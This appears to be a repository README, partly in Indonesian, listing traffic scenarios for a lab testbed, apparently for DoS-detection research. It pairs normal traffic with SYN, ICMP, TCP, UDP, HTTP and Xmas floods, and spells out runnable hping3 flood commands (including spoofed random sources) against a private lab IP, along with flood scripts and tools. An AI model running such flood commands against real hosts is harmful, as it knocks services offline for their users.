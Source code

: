 hping3 -> sudo apt install hping3 -y / sudo yum -y install hping3

Scenario
Benchmarking
a. Apache Bench
b. Apache JMeter
c. Iperf

1. Normal
   a. Video (UDP) + Audio (TCP) Streaming -> 2 / 3 Video yang berbeda ~10 menit
   b. Random request generator -> 11 endpoint (flask + nodeJS), 5 menit, 2 / 3 instance
   c. hping3 normal 5 - 10 menit
   d. ping -W 0.1 192.168.29.128
   e. ping 192.168.29.128 -n 300 (5 menit)
   f. ICMP_normal.sh

2. SYN Flood
   a. hping3
   a. sudo hping3 -S --flood -V -p 3002 192.168.29.128
   b. sudo hping3 192.168.29.128 -q -n -d 120 -S -p 3002 --flood --rand-source
   c. AllInOne.py
   d. ICMP_flood2.py

3. ICMP Flood
   a. hping3
   a. sudo hping3 --flood –V –i eth0 192.168.29.128
   b. hping3 --icmp --flood 192.168.29.128
   c. ICMP_flood.py
   d. ICMP_flood2.py
   e. hping3 -V -1 -d 1400 --faster 192.168.29.128

4. TCP Flood
   a. TCP SYN -> TCP_flood.py
   b. TCP Get -> TCP_flood2.py
   c. TCP Get -> TCP_flood3.py
   d. RavenStrom

5. UDP Flood
   a. UDP_flood.py
   b. RavenStrom

6. HTTP Flood
   a. GoldenEye
   b. AllInOne.py
   c. HTTP_flood.py

7. Xmas Flood
   a. ICMP_flood2.py
